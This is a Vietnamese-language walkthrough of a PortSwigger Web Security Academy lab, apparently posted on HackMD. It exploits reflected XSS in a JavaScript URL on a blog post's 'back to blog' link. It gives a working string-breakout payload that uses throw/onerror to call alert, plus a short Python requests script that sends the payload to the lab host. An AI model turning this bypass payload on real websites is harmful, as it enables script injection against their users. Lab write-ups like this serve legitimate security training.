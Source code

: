 mình vào 1 bài post và để ý đường dẫn quay lại khác so với các bài trước

![image](https://hackmd.io/_uploads/Bko2LTd9p.png)

mình gi thêm tham số trên url và thấy nó được thêm vào trong đoạn script xử lý để fetch trước khi về trang chủ

`view-source:https://0a430091039f899c807e4980001f0062.web-security-academy.net/post?postId=4&123456`

![image](https://hackmd.io/_uploads/rJJ6_pd96.png)

vậy mình sẽ cố gắng bypass và ngắt lệnh và thực hiện lệnh script mà mình muốn

### Khai thác

payload mình dùng và thêm vào trên url

```
&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

sau khi nhấn back to blog chúng ta được

![image](https://hackmd.io/_uploads/BkKoqTucp.png)

mình đã viết script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a430091039f899c807e4980001f0062.web-security-academy.net'

payload = "&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'"
response = requests.get(
    url + "/post?postId=4" + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/BJRlcaO5a.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/rJkMcTdqa.png)
